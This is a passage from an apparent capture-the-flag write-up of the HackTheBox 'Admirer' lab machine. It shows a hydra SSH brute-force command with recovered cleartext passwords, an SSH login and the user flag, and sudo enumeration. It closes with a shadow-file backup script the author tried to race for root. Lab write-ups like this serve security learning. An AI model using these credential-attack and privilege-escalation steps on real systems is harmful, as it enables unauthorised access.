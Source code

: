 We can then connect to the local database with adminer but there is nothing
interesting there.

I have the habit to create two files `user` and `passwd` containing the looted
data. We use `hydra` to test the gather creds against the ssh service. The last
password found is a valid SSH password for the `waldo` user.

    :::text
    $ hydra -L user -P passwd ssh://10.10.10.187
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-05 05:22:06
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries (l:11/p:6), ~5 tries per task
    [DATA] attacking ssh://10.10.10.187:22/
    [22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
    [22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
    1 of 1 target successfully completed, 2 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-05 05:22:17

We can then connect to ssh and get the user flag.

    :::text
    kali@kali:~/pown/htb_admirer/loot/html$ ssh waldo@10.10.10.187
    waldo@10.10.10.187's password:
    <SNIP>
    waldo@admirer:~$ cat user.txt
    fea0c3468144ce6091631cfbfb6c81eb

# Way to root

With our ssh connection with start to enumerate the box. The first thing we
notice is that we have the sudo permission to execute
`/opt/scripts/admin_tasks.sh` with the `SETENV` flag. Which means that our
environmental variable will be preserved.

    :::text
    waldo@admirer:~$ sudo -l
    [sudo] password for waldo:
    Matching Defaults entries for waldo on admirer:
        env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

    User waldo may run the following commands on admirer:
        (ALL) SETENV: /opt/scripts/admin_tasks.sh

When looking at the script we see a few interesting blocks.

The first interesting part is the `backup_shadow` function. I tried some race
condition between the moment the file is backuped and not yet `chown` to root.
But that is not working.

    :::bash
    backup_shadow()
    {
        if [ "$EUID" -eq 0 ]
        then
            echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
            /bin/cp /etc/shadow /var/backups/shadow.bak
            /bin/chown root:shadow /var/backups/shadow.bak
            /bin/chmod 600 /var/backups/shadow.bak
            echo "Done."
        else
            echo "Insufficient privileges to perform the selected operation."
        fi